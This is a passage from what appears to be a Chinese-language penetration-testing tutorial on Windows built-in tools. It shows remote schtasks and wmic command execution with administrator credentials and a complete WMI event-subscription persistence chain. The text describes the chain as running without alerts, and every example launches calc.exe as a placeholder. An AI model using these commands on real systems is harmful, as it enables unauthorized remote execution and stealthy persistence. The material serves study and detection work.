schtasks /create /s DESKTOP-K196DPF /tn "MyTask" /tr "cmd /c c:\windows\system32\calc.exe" /sc daily /u administrator /p password....
```





#### Wmic.exe (Windows 管理规范命令行 (WMIC) )

* 通过CIM（公共信息模型）数据库实现对本地及远程计算机的管理
* 支持系统：Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11

注意微软2016 年逐步弃用这个工具，后续Windows只能通过可选功能进行安装使用，并提倡使用PowerShell替代



* 如何利用

在本地执行命令打开计算器

```
wmic.exe process call create "cmd /c c:\windows\system32\calc.exe"
```



在远程执行命令打开计算器（同样被执行端会告警）

```
wmic.exe /node:"192.168.10.106" /user:"administrator" /password:"password.." process call create "cmd /c c:\windows\system32\calc.exe"
```



**持久化操作**

**创建事件过滤器:**（定义“何时”触发事件）

```
#要求 WMI 每隔 1 秒 (WITHIN 1) 检查一次 Win32_LocalTime 类（系统时间）的变化
#当分钟的秒数 (TargetInstance.Second) 刚好是 0 时（即每分钟的开始）就会触发事件
wmic /namespace:"\root\subscription" path __EventFilter create Name="filter_calc", EventNamespace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 1 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Second = 0"
```

**创建事件消费者:**（定义“做什么动作”）

```
#定义事件触发后要执行的操作打开calc.exe
wmic /namespace:"\root\subscription" path CommandLineEventConsumer create Name="consumer_calc", CommandLineTemplate="C:\Windows\System32\calc.exe"
```

**创建过滤器与消费者的绑定:**（定义“将何事与何动作关联”）

```
#绑定后每分钟运行一次calc.exe
wmic /namespace:"\root\subscription" path __FilterToConsumerBinding create Filter="__EventFilter.Name="filter_calc"", Consumer="CommandLineEventConsumer.Name="consumer_calc""
```



**查询事件过滤器：**

```
wmic /namespace:"\root\subscription" path __EventFilter get Name, Query
```



**查询事件消费者：**

```
wmic /namespace:"\root\subscription" path CommandLineEventConsumer get Name, CommandLineTemplate
```



**查询事件绑定：**

```
wmic /namespace:"\root\subscription" path __FilterToConsumerBinding get Filter, Consumer
```



wbemtest 工具也能看，跟上面同理



事件创建后每分钟均会触发1次计算器calc.exe（无告警），由于wmiprvse.exe运行在隔离的非交互式桌面，此时是看不到计算器弹出来的，但是通过ProcessMonitor视角是能看到任务正常触发的

```
23:18:00.0068520	wmiprvse.exe	4752	Process Create	C:\Windows\System32\calc.exe	SUCCESS	PID: 1656, Command line: C:\Windows\System32\calc.exe
23:19:00.0143123	wmiprvse.exe	4752	Process Create	C:\Windows\System32\calc.exe	SUCCESS	PID: 2496, Command line: C:\Windows\System32\calc.exe
23:20:00.0152406	wmiprvse.exe	4752	Process Create	C:\Windows\System32\calc.exe	SUCCESS	PID: 2260, Command line: C:\Windows\System32\calc.exe
```


